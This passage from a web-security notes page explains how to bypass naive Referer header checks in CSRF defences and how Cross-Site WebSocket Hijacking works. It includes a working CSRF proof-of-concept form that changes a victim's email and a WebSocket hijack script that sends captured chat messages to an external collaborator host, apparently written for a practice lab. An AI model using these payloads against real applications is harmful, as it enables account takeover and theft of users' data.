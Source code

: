 ```html

```


## Validation of Referer can be circumvented

Some applications validate the `Referer` header in a naive way that can be bypassed.

* **Starts with**: Some validation persist if the referer start with a value, so it can be bypass with `https://example.com.malicious.com/csrf-attack`
* **Has**: Other validation is if it contains the domain. Can be bypassed with `https://malicious.com/csrf-attack?example.com`

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?example.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
> **Note**: Some browsers strips the referer headers, to avoid that add the following header on the malicious server response `Referrer-Policy: unsafe-url`.

# Cross-Site WebSocket Hijacking

CSWH or Cross-Site Websocket hijacking involves a cross-site request forquery vulnerability on a WebSocket handshake. It arises when the websocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application. 

Example of exploit:

```html
<script>
var ws = new WebSocket("wss://0a45008904e7cbd3804cf37400bc00b0.web-security-academy.net/chat");
ws.onopen = function() {
    console.log("Conectado al WebSocket");
    ws.send("READY");
};
ws.onmessage = function(event) {
    console.log("Mensaje del servidor:", event.data);

    fetch("https://hf02g7im3afdf7eyw0yv7yibe2kx8rwg.oastify.com/test", {
        method: "POST",
        mode: "no-cors",
        body: event.data
        })
};
</script>
```